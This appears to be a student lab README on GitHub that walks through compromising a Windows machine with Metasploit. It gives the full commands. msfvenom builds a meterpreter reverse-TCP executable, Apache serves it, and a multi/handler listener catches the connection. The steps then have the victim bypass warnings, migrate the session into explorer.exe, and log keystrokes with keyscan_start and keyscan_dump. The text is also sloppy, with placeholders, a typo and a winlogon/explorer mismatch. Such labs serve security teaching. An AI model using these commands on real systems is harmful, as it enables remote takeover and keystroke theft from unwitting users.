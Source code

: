 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
copy the fun.exe into the apache /var/www/html folder img03

Start apache server sudo systemctl apache2 start

img04

Check the status of apache2 img05

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit img06

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. img07

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit img08

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted img09

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. img010

keyscan_dump Shows the keystrokes captured so far 

![Screenshot (170)](https://github.com/user-attachments/assets/f4f4388b-6404-4245-adad-31bffd4952ee)
![Screenshot (171)](https://github.com/user-attachments/assets/06569056-61bd-4df0-9d87-2fae35861031)
![Screenshot (172)](https://github.com/user-attachments/assets/dde32207-6a04-472d-896a-c25be276096a)
![Screenshot (174)](https://github.com/user-attachments/assets/e6330a9a-8633-4d45-b538-f996fbb2bf1e)
![Uploading Screenshot (175).png…]()

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
